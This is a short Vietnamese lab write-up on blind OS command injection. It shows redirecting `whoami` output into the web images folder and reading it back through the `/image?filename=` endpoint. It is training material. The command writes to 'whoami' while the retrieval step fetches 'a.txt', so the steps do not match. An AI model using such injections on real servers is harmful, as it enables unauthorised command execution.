



# Lab: Blind OS command injection with output redirection

## Mô tả lab

Ta có thể lợi dụng command injection để redirect output của lệnh `whoami` vào một file trong thư mục, sau đó truy cập file thông qua chức năng load ảnh của ứng dụng.

## Các bước thực hiện

### Phân tích

Giống bài lab:

- **Lab Blind OS command injection with time delays**

## Khai thác

Vì output không hiển thị trong response, ta không thể chỉ inject:

```bash
whoami
```

rồi đọc kết quả ngay trong response.

Thay vào đó, dùng redirection của shell:

```bash
whoami > /var/www/images/whoami
```



Thực thi `whoami` và ghi output vào file `/var/www/images/a.txt`.

Sau khi command chạy, file được tạo tại:

```text
/var/www/images/a.txt
```

Các ảnh được load qua endpoint:

```http
GET /image?filename=...
```



Truy cập:

```http
GET /image?filename=a.txt
```




Lab solved.